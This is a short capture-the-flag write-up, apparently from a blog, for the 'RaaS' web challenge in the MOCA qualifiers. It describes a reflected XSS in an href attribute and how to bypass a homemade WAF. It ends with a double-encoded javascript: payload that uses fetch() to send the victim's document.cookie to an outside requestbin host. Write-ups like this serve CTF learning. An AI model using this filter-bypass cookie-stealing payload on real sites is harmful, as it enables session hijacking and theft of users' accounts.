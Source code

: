 ```yaml
---
title : "[WEB] MOCA Qualifiers RaaS"
date: 2024-07-22 00:00:00 +0800
categories: [CTF, Web, XSS]
tags: [CTF, Web, XSS]
---
```


# Raas
The website was simple, just a box with two parameters:
![alt text](/assets/RaaS/homepage.png)

Our input was reflected in this part of the html. Specifically in the href attribute.
![alt text](/assets/RaaS/image.png)

Inside an href attribute it is possible to execute javascript code using the directive ```javascript:```. However the flag was not that easy. An homemade WAF was put in place:
![alt text](/assets/RaaS/image-1.png)

Two bypasses are needed:

1) To bypass the regex double encoding the payload does the trick, [reference](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#special-protocols-within-the-attribute)
2) To bypass the second check, mutation points in \<a\> tag where needed, [reference](https://x.com/hackerscrolls/status/1273254212546281473?s=21)
## Final payload
```javascript
%02java%09script:%2528function%2528%2529%257Bfetch%2528%2527https%253A%252F%252Frequestbin%252Ekanbanbox%252Ecom%252Fxudpedxu%253Fcookie%253D%2527%252Bdocument%252Ecookie%2529%257D%2529%2528%2529
```
## Flag
```
PWNX{WH0_D035'N7_l0V3_4_g00D_0l'_W4F?}
```